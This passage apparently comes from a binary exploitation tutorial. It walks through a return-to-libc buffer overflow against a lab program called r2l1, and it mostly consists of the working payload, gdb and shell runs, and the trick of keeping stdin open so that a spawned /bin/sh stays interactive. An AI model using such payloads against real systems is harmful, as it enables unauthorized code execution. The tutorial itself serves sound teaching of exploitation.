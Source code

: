 Now we are ready to exploit. We use `<<<` to feed the python output to the program's stdin.

```bash
(gdb) run <<< `python -c 'print 37 * "A" + "\xf7\xe4\x64\xd0"[::-1] + "\xf7\xe3\x84\xff"[::-1] + "\xff\xff\xdf\xc2"[::-1]'`
Input something: The first character was: A
[Detaching after fork from child process 14268]
[Inferior 1 (process 14265) exited normally]
```

What happened here? Everything seems to be working as we intended, as the process forks, and then exits normally. But the shell was never available to us.

The same thing happens in the shell:

```
$ python -c 'print 37 * "A" + "\xf7\xe4\x64\xd0"[::-1] + "\xf7\xe3\x84\xff"[::-1] + "\xff\xff\xdf\xc2"[::-1]' | env - PWD=$PWD MYSH=/bin/sh SHLVL=0 $PWD/r2l1
Input something: The first character was: A
$ pstree -p $$
bash(18246)───pstree(21130)
```

> I use pstree to show that there is currently only one process, 18246. `$$` is the pid of the current shell.

This is because stdin closes, causing the shell to exit.

We can prevent this by keeping stdin open:

```bash
$ cat <(python -c 'print 37 * "A" + "\xf7\xe4\x64\xd0"[::-1] + "\xf7\xe3\x84\xff"[::-1] + "\xff\xff\xdf\xc2"[::-1]') - | env - PWD=$PWD MYSH=/bin/sh SHLVL=0 $PWD/book/r2l1
Input something: The first character was: A
█
```

> <() is process substitution.

The blinking cursor now waits for our input. But how can we be sure this is the sh spawned from `r2l1`?

```
Input something: The first character was: A
echo $$
21159
<PRESS CTRL-Z>
$ pstree -p $$
bash(18246)─┬─cat(21155)───bash(21157)
            ├─pstree(21222)
            └─r2l1(21156)───sh(21159)
```

We use `echo $$` to get the pid of the shell, then suspend the job to get back to our main bash shell. The pstree shows us that 21159 is indeed a child of the vulnerable program r2l1.

> Use `fg` to resume the suspended job.

### Intro to 64-bit ROP
